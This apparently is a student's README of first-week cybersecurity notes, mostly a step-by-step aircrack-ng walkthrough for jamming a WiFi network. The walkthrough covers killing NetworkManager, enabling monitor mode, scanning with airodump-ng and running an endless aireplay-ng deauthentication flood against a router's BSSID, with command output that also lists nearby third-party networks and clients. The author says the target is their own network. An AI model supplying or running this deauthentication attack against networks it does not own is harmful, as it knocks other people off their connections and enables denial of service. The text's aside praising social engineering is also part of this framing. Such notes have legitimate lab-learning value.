 # Week-One-Cybesecurity
We were covering perfoming close to a DDOS attack and jamming a network

# Prerequisites of this realm

Computer Hacking is a Science as well as an Art. Like any other expertise,
you need to put a lot of effort in order to acquire knowledge and become an expert hacker.
Once you are on the track, you would need more effort to keep up-to-date with latest technologies,
new vulnerabilities and exploitation techniques.

An ethical hacker must be a computer systems expert and needs to have very strong programming and computer networking skills.

An ethical hacker needs to have a lot of patience, persistence,
and perseverance to try again and again and wait for the required result.

Additionally, an ethical hacker should be smart enough to understand the situation
and other users’ mind-set in order to apply social engineering exploits.
A good ethical hacker has great problem-solving skills too.

# Bourne shell?

The Bourne shell is a shell command-line interpreter for computer operating systems. The Bourne shell was the default shell for Version 7 Unix. Unix-like systems continue to have —which will be the Bourne shell, or a symbolic link or hard link to a compatible shell—even when other shells are used by most users. Developed by Stephen Bourne at Bell Labs

# What did we do today, really?

Today we managed to launch a low level network DOS(Denial or service) attack by using a simple tool that comes pre-installed
in Kali, Parrot or any pen-testing oriented distro.

# what is aircrack-ng?

Aircrack-ng is a complete suite of tools to assess WiFi network security.

It focuses on different areas of WiFi security:

    - Monitoring: Packet capture and export of data to text files for further processing by third party tools
    - Attacking: Replay attacks, deauthentication, fake access points and others via packet injection
    - Testing: Checking WiFi cards and driver capabilities (capture and injection)
    - Cracking: WEP and WPA PSK (WPA 1 and 2)

All tools are command line which allows for heavy scripting. A lot of GUIs have taken advantage of this feature. It works primarily Linux but also Windows, OS X, FreeBSD, OpenBSD, NetBSD, as well as Solaris and even eComStation 2.

<sourced from "http://aircrack-ng.org/">

# whats an IP address?

an IP address is a network-unique special number combination given to your device when it connects to a network.

# How can i see my IP address?

On windows, you can go to the WIFI settings or simply type the command >"ipconfig" on the shell
On Unix based systems use the command "ifconfig" weird right? wtf is the f for?

# How to Jam a network using aircrack-ng (eakrak dash en gee)

well first thing is to dicover the bssid of the device hosting the network or the router.
the bssid can also be called the Hardware ID or MAC address, whichever is right
we are going to jam my network again, Agu

## The command is "ifconfig" on my machine below shows three interfaces, ignore "lo", so we are left with two.

❯ ifconfig
enp3s0: flags=4099<UP,BROADCAST,MULTICAST> mtu 1500
ether 14:fe:b5:9b:80:69 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 1580 bytes 154980 (154.9 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 1580 bytes 154980 (154.9 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

wlp1s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.43.70 netmask 255.255.255.0 broadcast 192.168.43.255
inet6 fe80::19c5:3b12:fc2:e414 prefixlen 64 scopeid 0x20<link>
ether 00:25:d3:c8:15:9f txqueuelen 1000 (Ethernet)
RX packets 22987 bytes 27371890 (27.3 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 17618 bytes 2245875 (2.2 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

~ via 🐍 v2.7.17 on ☁️ (Oregen)
❯

our target is "wlp1s0" which is my wireless interface card or simply the WIFI card.

Okay, now we know the card we are going to use, the key about jamming networks on this level is to send a deauthanticate
request to the Router for all devices a sizable amount of time to cause a network outage.

Usually the "NetworkManager" process on your Unix machine allows you to run your wifi interface in the controlled mode,
to perform this hack stop this service using the command
"sudo service NetworkManager stop"

Great, so after this you will notice that your WIFI is gone, and the manger on your hotbar is also gone, dont worry, this can be reversed by restarting the service and switching the card back to the monitor mode.

use the command "airmon-ng start wlp1s0" to discover any other processes that might hinder the hack
note here that "wlp1s0" is my network interface card, use yours.
This command will output the following on my machine

---

Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to run 'airmon-ng check kill'

PID Name
1205 wpa_supplicant
1207 NetworkManager
1243 avahi-daemon
1371 avahi-daemon
2773 dhclient

PHY Interface Driver Chipset

phy0 wlp1s0 ath9k Qualcomm Atheros AR9285 Wireless Network Adapter (PCI-Express) (rev 01)

    	(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
    	(mac80211 station mode vif disabled for [phy0]wlp1s0)

--
to stop those processes use:
kill _pid_
e.g "kill 1207" above will kill or stop the network manager

--

Alright now we run "airodump-ng" basically this command will dump all the networks around into STD_OUT
kinda like this:

---

CH 1 ][ Elapsed: 0 s ] 2021-02-12 21:48

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

D8:32:14:72:73:F9 -88 2 0 0 6 54e. WPA2 CCMP PSK **\*\***  
 50:0F:F5:F8:3A:29 -87 2 0 0 11 54e. WPA2 CCMP PSK **\***
E4:AB:89:AA:78:EC -87 2 0 0 5 54e. WPA2 CCMP PSK **\***  
 50:0F:F5:F8:39:49 -90 2 0 0 8 54e. WPA2 CCMP PSK \*\*\*\*

02:08:22:08:69:09 -53 8 0 0 5 54e WPA2 CCMP PSK Agu

E8:DE:27:59:32:40 -79 4 22 6 2 54e. WPA2 CCMP PSK \*\*\*\*\*

BSSID STATION PWR Rate Lost Frames Probe

(not associated) 80:19:67:E9:B7:30 -59 0 - 1 1 4  
 E8:DE:27:59:32:40 AE:25:B7:81:DE:9A -1 1e- 0 0 9  
 E8:DE:27:59:32:40 70:9F:A9:65:40:A3 -88 0 - 1 0 1  
 E8:DE:27:59:32:40 CC:3B:27:44:88:2A -64 2e- 1 221 15

---

## Please note out target Agu at bssid "02:08:22:08:69:09" and channel "5"

---

Now we have all we need

    (The MAC address of the host)
    (The name of the interface to use(This tends to change when you use aircrack-ng))
    (Channel that the router is broadcasting at)

the next and second last command is:
"iwconfig wlp1s0mon channel 5"

this command will configure our interface card to run on channel 5

## The final command

"aireplay-ng -0 0 -a 02:08:22:08:69:09 wlp1s0mon"

the "-0" parameter stands for the type of signal which is deauth

0 is the number of times which equal to infinity

and "-a" is the mac address

then finally the interface

press enter and this will jam the network indefinately

---

root@Inspiron-N4110:/# aireplay-ng -0 0 -a 02:08:22:08:69:09 wlp1s0mon
22:08:33 Waiting for beacon frame (BSSID: 02:08:22:08:69:09) on channel 5
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:08:33 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:34 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:34 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:35 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:35 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:35 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:36 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]
22:08:36 Sending DeAuth to broadcast -- BSSID: [02:08:22:08:69:09]

